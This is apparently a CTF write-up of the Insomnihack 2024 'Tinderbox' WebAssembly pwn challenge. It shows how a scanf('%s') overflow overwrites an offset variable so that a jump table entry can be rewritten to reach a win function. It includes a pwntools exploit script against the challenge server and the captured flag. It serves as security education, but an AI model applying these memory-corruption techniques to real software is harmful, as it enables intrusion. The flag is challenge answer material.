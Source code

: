 ```yaml
---
title: 'Insomnihack teaser 2024'
challenge: 'Tinderbox'
date: 2024-01-22T00:00:00+01:00
author: 'v0lp3 & SimozB & Bonfra'
description: 'Writeup for challenge TinderBox of Insomnihack teaser 2024' 
cover: '/img/Insomnihack_teaser_2024/logo.png'
tags: ['pwn', 'misc']
draft: false
---
```


```
My friend is not a great developer but he insisted to work on a prototype in C. He said he compiled the program to WebAssembly and "it is super secure" but I am doubtful.

nc tinderbox.insomnihack.ch 7171

Note: the server runs the module using `Wasmtime 16.0.0` and the runtime has access to the current directory.
```

### Quick look

The challenge attachment is a wasm file as confirmed by the `file` command.

```bash
$ file bin.wasm
bin.wasm: WebAssembly (wasm) binary module version 0x1 (MVP)
```

We can run this binary with the [Wasmtime](https://github.com/bytecodealliance/wasmtime) runtime:

```bash
$ wasmtime bin.wasm
Tell me your name:
```

We can provide arbitrary length name but no visible crash happens in any case. After we enter a string a small menu is displayed:

```bash
$ wasmtime bin.wasm
Tell me your name: naslab
1 - I made a typo in my name!
2 - Do some math for me.
3 - Tell me a joke!
```

The behavior of the options is as follows:

- (1) allows you to change the first letter of the name
- (2) take a number as input and calculate **37 - your input**
- (3) print a text

We can use the [ghidra-wasm-plugin](https://github.com/nneonneo/ghidra-wasm-plugin) to disassemble it in Ghidra.

### Vulnerability

{{< image src="/img/Insomnihack_teaser_2024/get_name.png" position="center" >}}
Figure 1: Get name function

After disassembling it in Ghidra we immediately notice that the function `get_name` uses `scanf` with the format `%s`. So it's clear that there is a buffer overflow here.
We can see that there is a function called `win` that we need to call to print the flag and that is referenced by a function table as shown below.

{{< image src="/img/Insomnihack_teaser_2024/jump_table.png" position="center" >}}
Figure 2: Function table

{{< image src="/img/Insomnihack_teaser_2024/setValues.png" position="center" >}}
Figure 3: setValues function

Some minimal refactoring later we found that the `setValues` function (traceback: `setValues` <= `fixTypo` <=  `menu` <= `__original_main`) can be abused to get arbitrary write primitive on the memory and get the flag. Here is why:

- The buffer where name is stored is allocated in the `__original_main` function, so the buffer overflow occurs in that function context
- The `__original_main` function defines a `jump_table_offsets` which contains some offsets that are used to call the correct function in the function table shown above.
- The `__original_main` function calls the `menu` function and passes `name`, `jump_table_offsets` pointers and a variable `name_offset` containing **0**. This offset is used in the `setValues` function to referencing to first character of the 'name' buffer. In short, it is the offset of the character modified by `fixTypo`.

{{< image src="/img/Insomnihack_teaser_2024/original_main.png" position="center" >}}
Figure 4: original_main function

We can't use buffer overflow directly to overwrite `jump_table_offsets` because the stack layout is the following:
N.B. in this stack representation (obviously) numbers in square bracket below are refered to the size of the array.

```
+________________________+
|                        |
|  jump_table_offsets[4] |
|________________________|
|                        |
|        name[16]        |
|________________________|
|                        |
|       name_offset      |
|________________________|
|                        |
|        something       |
|________________________|
|                        |
|           ret          |
+________________________+

```

We can exploit this to change the values of `name_offset` to negative value, and gain arbitrary memory write with `setValues`functions, basically we only need to modify `jump_tables_offset[1]` from value **3** to **2**, so we'll call `win` function when we run third option in the menu.

{{< image src="/img/Insomnihack_teaser_2024/menu.png" position="center" >}}
Figure 3: menu function

After some tries we found out that the right offset to modify `jump_tables_offset[1]` is **-12**. 

Here is the script used to get the flag:

```python
from pwn import *

p = remote("tinderbox.insomnihack.ch", 7171)
p.sendlineafter("name:", b"A" * 16 + p32(-12, signed=True))
p.sendlineafter("joke!", "1")
p.sendlineafter("there", "2")
p.sendlineafter("joke!", "3")

p.interactive()
```

> INS{L00k_mUm!W1th0ut_toUch1ng_RIP!}
